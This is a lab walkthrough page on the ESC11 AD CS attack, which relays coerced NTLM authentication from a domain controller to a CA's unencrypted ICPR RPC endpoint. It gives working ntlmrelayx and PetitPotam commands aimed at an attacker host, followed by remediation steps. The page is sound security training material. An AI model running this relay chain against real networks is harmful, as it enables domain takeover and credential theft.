

# ESC11 — Relay to CA's ICertPassage (unencrypted ICPR)

**Impact:** coerced machine auth → certificate → **domain compromise**
**Lab status:** 🌐 requires attacker on the DC's subnet

---

## Concept

ESC11 is ESC8's RPC cousin. Certificate requests can be made over **MS-ICPR**
(the `ICertPassage` RPC interface) instead of HTTP. If the CA's
**`IF_ENFORCEENCRYPTICERTREQUEST`** interface flag is **cleared**, the RPC endpoint
accepts requests **without packet privacy (encryption)** — which makes the NTLM
authentication on that channel **relayable**.

The attacker coerces a machine (the DC), relays the NTLM to the CA's RPC endpoint,
and requests a machine/DC certificate — same devastating outcome as ESC8, but over
RPC rather than the web endpoint.



---

## Configuration in the lab

The deploy clears the enforcement flag on the CA:

```
IF_ENFORCEENCRYPTICERTREQUEST = OFF   (unencrypted ICPR accepted)
```

Check with `certipy find` — it reports *Enforce Encryption for Requests:
Disabled*.

Like ESC8, this needs the attacker **on `10.0.0.0/24`** so the relay legs are
reachable.

---

## Exploitation

```bash
# relay to the CA's RPC interface (Impacket with ESC11 support)
ntlmrelayx.py -t rpc://10.0.0.5 -rpc-mode ICPR -icpr-ca-name ADESC-Root-CA \
  -smb2support --adcs --template DomainController

# coerce the DC
petitpotam.py -u lowpriv -p 'Lab12345!' -d adescrtl.lab <ATTACKER_IP> 10.0.0.5
```

Then authenticate with the relayed `DC01$` certificate exactly as in
[ESC8](ESC8.md) and DCSync.

---

## Detection & defence

- **Re-enable encryption enforcement** on the CA:

  ```
  certutil -setreg CA\InterfaceFlags +IF_ENFORCEENCRYPTICERTREQUEST
  Restart-Service certsvc
  ```

- Apply the same NTLM-relay hardening as ESC8 (disable NTLM, signing, EPA,
  coercion patches).
- Monitor unexpected machine-certificate issuance over RPC.
